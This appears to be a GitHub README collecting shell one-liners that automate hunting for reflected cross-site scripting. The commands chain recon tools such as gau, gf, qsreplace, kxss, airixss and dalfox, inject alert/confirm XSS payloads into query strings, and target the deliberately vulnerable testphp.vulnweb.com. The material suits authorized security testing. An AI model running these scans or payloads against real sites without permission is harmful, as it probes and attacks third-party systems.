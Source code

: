 # One-liner-XSS-Scanner-
This is a collection of commands that's help you to find XSS via automation.

##Via Bash Script
### Tools:
> [Kxss](https://github.com/Emoe/kxss) : To find reflected values.

> [uro](https://github.com/s0md3v/uro): Declutters url lists for crawling.

> [gf](https://github.com/tomnomnom/gf): A wrapper around grep, to help you grep for things.

> [qsreplace](https://github.com/tomnomnom/qsreplace): To replace all query string values with a user-supplied value.

> [Freq](https://github.com/takshal/freq): To find alert values.

> [airixss](https://github.com/ferreiraklet/airixss): To find XSS during recon.

> [dalfox](https://github.com/hahwul/dalfox) : It’s a powerfull XSS scanner.

## First Case

```
echo http://testphp.vulnweb.com | gau | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```


![1_HTuqyTBftAdkwqfRL3jQ_w](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/b7975f46-d5ce-4adb-9f35-87d6b7af9294)


```
cat param.txt | kxss | awk '{print $9}'| dalfox pipe
```


![1_FO3algvVNFOrDIYh7wKbVQ](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/fbf15891-47df-43fe-a47a-aefc64c6493b)


```


cat param.txt | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
echo http://testphp.vulnweb.com | gau | gf xss | uro  |qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"


```

![1__JCZZJX2T1XiHxH0FZPTWw](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/cfb1baa0-f59c-4447-9753-093fd6b62c77)



*You can Read the full methodology here at [Medium](https://0xelkot.medium.com/advanced-xss-discovery-streamlining-your-attack-strategy-with-cutting-edge-automation-tools-88cfd0f68c8e)*
